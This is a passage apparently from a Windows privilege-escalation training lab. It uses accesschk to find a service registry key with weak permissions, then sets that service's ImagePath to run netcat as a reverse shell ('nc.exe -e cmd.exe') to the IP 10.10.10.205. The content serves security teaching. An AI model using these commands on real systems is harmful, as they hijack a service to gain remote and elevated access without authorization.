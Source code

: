 
#### Checking for Weak Service ACLs in Registry

```cmd-session
C:\htb> accesschk.exe /accepteula "mrb3n" -kvuqsw hklm\System\CurrentControlSet\services



RW HKLM\System\CurrentControlSet\services\ModelManagerService
        KEY_ALL_ACCESS

<SNIP> 
```

#### Changing ImagePath 
```powershell-session
Set-ItemProperty -Path HKLM:\SYSTEM\CurrentControlSet\Services\ModelManagerService -Name "ImagePath" -Value "C:\Users\john\Downloads\nc.exe -e cmd.exe 10.10.10.205 443"
```

---

